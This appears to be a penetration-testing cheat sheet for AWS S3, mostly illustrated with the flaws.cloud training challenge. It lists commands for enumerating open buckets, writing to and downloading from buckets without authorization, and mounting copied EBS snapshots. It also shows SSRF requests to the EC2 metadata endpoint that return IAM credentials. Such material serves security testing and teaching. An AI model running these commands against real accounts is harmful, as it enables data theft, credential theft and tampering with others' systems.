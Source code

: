 # Amazon Bucket S3 AWS

## Summary

- [AWS Configuration](#aws-configuration)
- [Open Bucket](#open-bucket)
- [Basic tests](#basic-tests)
	- [Listing files](#listing-files)
	- [Move a file into the bucket](move-a-file-into-the-bucket)
	- [Download every things](#download-every-things)
	- [Check bucket disk size](#check-bucket-disk-size)
- [AWS - Extract Backup](#aws---extract-backup)
- [Bucket juicy data](#bucket-juicy-data)


## AWS Configuration

Prerequisites, at least you need awscli

```bash
sudo apt install awscli
```

You can get your credential here https://console.aws.amazon.com/iam/home?#/security_credential
but you need an aws account, free tier account : https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free_np/

```javascript
aws configure
AWSAccessKeyId=[ENTER HERE YOUR KEY]
AWSSecretKey=[ENTER HERE YOUR KEY]
```

```javascript
aws configure --profile nameofprofile
```

then you can use *--profile nameofprofile* in the aws command.

Alternatively you can use environment variables instead of creating a profile.

```bash
export AWS_ACCESS_KEY_ID=ASIAZ[...]PODP56
export AWS_SECRET_ACCESS_KEY=fPk/Gya[...]4/j5bSuhDQ
export AWS_SESSION_TOKEN=FQoGZXIvYXdzE[...]8aOK4QU=
```

## Open Bucket

By default the name of Amazon Bucket are like http://s3.amazonaws.com/[bucket_name]/, you can browse open buckets if you know their names

```bash
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
http://flaws.cloud.s3.amazonaws.com/
https://buckets.grayhatwarfare.com/
```

Their names are also listed if the listing is enabled.

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
<Name>adobe-REDACTED-REDACTED-REDACTED</Name>
```

Alternatively you can extract the name of inside-site s3 bucket with `%C0`. (Trick from https://twitter.com/0xmdv/status/1065581916437585920)

```xml
http://example.com/resources/id%C0

eg: http://redacted/avatar/123%C0
```

## Basic tests

### Listing files

```bash
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```

You can get the region with a dig and nslookup

```bash
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

### Move a file into the bucket

```bash
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers
```

```bash
aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```

### Download every things

```powershell
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```

### Check bucket disk size

Use `--no-sign` for un-authenticated check.

```powershell
aws s3 ls s3://<bucketname> --recursive  | grep -v -E "(Bucket: |Prefix: |LastWriteTime|^$|--)" | awk 'BEGIN {total=0}{total+=$3}END{print total/1024/1024" MB"}'
```

## AWS - Extract Backup

```powershell
$ aws --profile flaws sts get-caller-identity
"Account": "XXXX26262029",


$ aws --profile profile_name ec2 describe-snapshots
$ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
"SnapshotId": "snap-XXXX342abd1bdcb89",

Create a volume using snapshot
$ aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
In Aws Console -> EC2 -> New Ubuntu
$ chmod 400 YOUR_KEY.pem
$ ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com

Mount the volume
$ lsblk
$ sudo file -s /dev/xvda1
$ sudo mount /dev/xvda1 /mnt
```

## Bucket juicy data

Amazon exposes an internal service every EC2 instance can query for instance metadata about the host. If you found an SSRF vulnerability that runs on EC2, try requesting :

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/IAM_USER_ROLE_HERE will return the AccessKeyID, SecretAccessKey, and Token
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
```

For example with a proxy : http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/

## References

* [There's a Hole in 1,951 Amazon S3 Buckets - Mar 27, 2013 - Rapid7 willis](https://community.rapid7.com/community/infosec/blog/2013/03/27/1951-open-s3-buckets)
* [Bug Bounty Survey - AWS Basic test](https://web.archive.org/web/20180808181450/https://twitter.com/bugbsurveys/status/860102244171227136)
* [flaws.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws.cloud/)
* [flaws2.cloud Challenge based on AWS vulnerabilities - by Scott Piper of Summit Route](http://flaws2.cloud)
* [Guardzilla video camera hardcoded AWS credential ~~- 0dayallday.org~~ - blackmarble.sh](https://blackmarble.sh/guardzilla-video-camera-hard-coded-aws-credentials/)
* [AWS PENETRATION TESTING PART 1. S3 BUCKETS - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-1-s3-buckets/)
* [AWS PENETRATION TESTING PART 2. S3, IAM, EC2 - VirtueSecurity](https://www.virtuesecurity.com/aws-penetration-testing-part-2-s3-iam-ec2/)
* [A Technical Analysis of the Capital One Hack - CloudSploit - Aug 2 2019](https://blog.cloudsploit.com/a-technical-analysis-of-the-capital-one-hack-a9b43d7c8aea?gi=8bb65b77c2cf)
